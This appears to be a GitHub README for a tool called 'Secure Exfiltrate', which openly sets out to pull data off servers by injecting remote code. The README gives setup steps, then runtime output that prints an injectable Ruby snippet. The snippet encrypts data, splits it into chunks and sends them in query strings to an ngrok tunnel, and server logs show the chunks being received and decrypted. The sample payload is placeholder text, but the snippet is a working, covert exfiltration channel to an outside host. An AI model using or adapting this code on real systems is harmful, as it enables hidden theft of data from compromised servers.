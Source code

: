 # Secure Exfiltrate

This project sets up a secure channel that can receive messages from an embedded server. It demonstrates the exfiltration of information by injecting remote code onto a server. However, as a security professional, it ensures that the extracted information is not compromised.

## Prerequisites

Before running this project, make sure you have the following dependencies installed:

- Node.js
- npm
- ngrok (with an account and agent authtoken configured)
- Python 3

## Installation

1. Install the `concurrently` package globally by running the following command:

   ```bash
   npm install -g concurrently
   ```

2. Clone this repository:

   ```bash
   git clone https://github.com/your-username/secure-exfiltrate.git
   ```

3. Navigate to the project directory:

   ```bash
   cd secure_exfiltrate
   ```

## Usage

To start the main service and set up the ngrok tunnel, run the following command:

```bash
make start
```

Example Runtime output:

```bash
Starting services with concurrently...
Ngrok URL: https://f8d5-98-225-53-234.ngrok-free.app
Ruby Code to inject, for safe transmission:
=================================

require 'openssl'
require 'base64'
require 'net/http'
require 'uri'

payload = "hello world " * 1000
public_key = OpenSSL::PKey::RSA.new("-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAvXmwmaNq0EmOUOYh4tOh\nd4VYOdr3CmCRcS3FVyjt473v+KFqQElB3domKHRQt4yAaAly4Yi9m6DbMOTzOL5E\ni8lkY4Y9Lw0n7VFLiqVGQQOObAcdyEQ7G5kCZ6xAk7xoF25kXfSkAPpaejvGZKeR\niX0PVLygfrUT/p9grc3nTJGk1COH7dHX7HTW8eO8XZDsiRFqLy2K6LVw4ZTkfjMT\n24imFKPuXKT0twmrEpxdKmLv2pCH82VHuu+QWRhxD9E46heAvYvaz0SXt1zNK7wc\nz47A/Pzw+MJcc9jjDkYaCqv2gr1K0ZCANL/2j49a1aoXicn1HGdqrTzSBjhsSWiB\nKwIDAQAB\n-----END PUBLIC KEY-----\n")
chunks = payload.scan(/.{1,#{public_key.n.num_bytes - 42}}/)
midx = (0...10).map { ('a'..'z').to_a[rand(26)] }.join
chunks.each_with_index { |chunk, index| encrypted_chunk = public_key.public_encrypt(chunk); encrypted_base64_chunk = Base64.strict_encode64(encrypted_chunk).strip; encoded_chunk = URI.encode_www_form_component(encrypted_base64_chunk); uri = URI.parse("https://f8d5-98-225-53-234.ngrok-free.app/"); uri.query = "n=" + encoded_chunk + "&m=" + midx + "&x=" + index.to_s + "&z=" + chunks.length.to_s; response = Net::HTTP.get_response(uri); puts "==> " + response.code + ": [" + response.body + "]" }

=================================

 * Serving Flask app 'server'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
 ==> Decrypted data for message: #jfltbicvcc part 1 (1/2) -> 214 bytes
127.0.0.1 - - [22/Nov/2023 09:43:08] "GET /?n=WPc2Q/46DDoVPX8K5jMEWfDYB4cPdrp/eNMukimma3qh/3uutOsyOJh7CP9H425FKCgsn95%2B1kJHQYW0Zt%2BwoT87hiKxcyS3NTPu6jazF6H9NewDxIumgKKHuS86JjUfEoTZ9EheS3tLu5IVhhEvEDNnzDrttXfuWDCLUTb%2B4UD2smMdo56KAvghKDwXddh776p%2B9cKQqYkTglq/wbpHPhD3JYofjZA4tVgDdTdrDhPnacrj7A%2B37kPdRon51cG6oWzakd8YhxPzRisUHAG2j2pjLl1bBaHIRs1wKeEzbvk8/JhkZCfApPbPu9qug7KYIHjPrjGx62XwTY2kRWSZQw%3D%3D&m=jfltbicvcc&x=0&z=2 HTTP/1.1" 200 -
 ==> Decrypted data for message: #jfltbicvcc part 2 (2/2) -> 146 bytes
Complete message for message ID jfltbicvcc:
=================================
hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world 
=================================

127.0.0.1 - - [22/Nov/2023 09:43:08] "GET /?n=oP/Ia/A9dJUtg13w/B9iur4Rll7XLVldqrXOchry1Nm56AIguLrB6TrrF%2Bhc0Ok9IXxUrcf0lViHQ1FNqMrxVSf1jhtDEayTlITRgRrY2klPo17%2ByK1FJvToBSIfFkk2ruiCy40lMRycLB1s3BF3%2BIFQx9ivOcu5PopHYpa/JFcXjjZfeFsbRChFPjchgzGWdYoK1huLsPwur5KlYLAolCfU8dRNwuDf5MwjnGbi1U2J1bWTo/GGGtjYVGHMOvX3IvdVnh57AVT%2BgfR75LEP8fTK%2BSfOtzWYNSgCJa2DFMvgLUHd6NgQndRfOtokuW/f5RpEs%2BaKaSOE9puLJiJ/dQ%3D%3D&m=jfltbicvcc&x=1&z=2 HTTP/1.1" 200 -
```
